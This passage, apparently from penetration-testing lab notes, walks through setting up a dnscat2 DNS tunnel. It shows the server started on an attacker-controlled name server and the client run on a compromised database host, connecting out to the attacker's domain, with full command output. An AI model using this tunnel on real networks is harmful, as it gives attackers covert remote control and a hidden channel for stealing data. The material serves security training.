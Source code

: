 {% tabs %}
{% tab title="1. Server" %}
{% code overflow="wrap" %}
```bash
# start the dnscat2 server on the authoritative name server
kali@felineauthority:~$ dnscat2-server feline.corp

New window created: 0
dnscat2> New window created: crypto-debug
Welcome to dnscat2! Some documentation may be out of date.

auto_attach => false
history_size (for new windows) => 1000
Security policy changed: All connections must be encrypted
New window created: dns1
Starting Dnscat2 DNS server on 0.0.0.0:53
[domains = feline.corp]...

Assuming you have an authoritative DNS server, you can run
the client anywhere with the following (--secret is optional):

  ./dnscat --secret=0adfe7049681d1c76d66ea8f6a0c83d1 feline.corp

To talk directly to the server without a domain name, run:

  ./dnscat --dns server=x.x.x.x,port=53 --secret=0adfe7049681d1c76d66ea8f6a0c83d1

Of course, you have to figure out <server> yourself! Clients
will connect directly on UDP port 53.
```
{% endcode %}
{% endtab %}

{% tab title="2. Client" %}
On the target host, the **dnscat2 client** binary is executed, pointing to the attacker's domain. The client and server then negotiate an encrypted session, displaying a unique authentication phrase on both ends to confirm connection integrity. This ensures no man-in-the-middle tampering has occurred during tunnel establishment.

{% code overflow="wrap" %}
```bash
# start dnscat client on the compromised host
database_admin@pgdatabase01:~/dnscat$ ./dnscat feline.corp
./dnscat feline.corp
Creating DNS driver:
 domain = feline.corp
 host   = 0.0.0.0
 port   = 53
 type   = TXT,CNAME,MX
 server = 127.0.0.53

Encrypted session established! For added security, please verify the server also displays this string:

Polite Fifty Sophic Otto Tried Wages

Session established!
```
{% endcode %}

